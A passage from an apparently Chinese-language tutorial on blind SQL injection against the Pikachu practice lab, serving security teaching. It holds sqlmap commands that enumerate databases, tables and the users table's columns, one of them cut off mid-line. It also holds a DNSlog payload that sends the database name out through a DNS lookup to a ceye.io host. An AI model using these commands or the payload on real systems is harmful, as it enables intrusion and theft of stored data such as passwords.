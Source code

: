 想要获取其他数据库信息方法一样

只需要修改注入语句即可

## 4.10.盲注（base on boolian）

布尔注入利用情景

- 页面上没有显示位，并且没有输出SQL语句执行错误信息
- 只能通过页面返回正常与不正常判断

这里是字符型盲注，我就不讲盲注原理和手工盲注了，需要了解的，请看我另一篇文章：[深入剖析SQL注入](https://jwt1399.top/posts/32179.html)

#### **SqlMap实现布尔盲注**

```sql
--batch: 
	用此参数，不需要用户输入，
	将会使用sqlmap提示的默认值一直运行	下去。
--threads 10 :
	设置线程为10，
	运行速度会更快
```



```sql
#查询数据库【pikachu】 
python sqlmap.py -u "http://192.168.81.135/pikachu-master/vul/sqli/sqli_blind_b.php?name=1&submit=%E6%9F%A5%E8%AF%A2"  --dbs

#获取数据库中的表【httpinfo,member,message,users,xssblind】 
python sqlmap.py -u "http://192.168.137.1/pikachu-master/vul/sqli/sqli_blind_b.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -D pikachu --tables --batch --threads 10 

#获取表中的字段名【...user,password,...】 
python sqlmap.py -u "http://192.168.137.1/pikachu-master/vul/sqli/sqli_blind_b.php?name=1&submit=%E6%9F%A5%E8%AF%A2"  -D pikachu -T users --columns --batch --threads 10 

#获取字段信息
python sqlmap.py -u "http://192.168.137.1/pikachu-master/vul/sqli/s
```

#### **DNSlog外带数据注入**

##### **查询数据库**



```sql
1' and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\sql_test'))),1,0)# 1' and if((select load_file(concat('\\\\',(select database()),'.8tiwyi.ceye.io\\sql_test'))),1,0)#

```

##### **查询表**
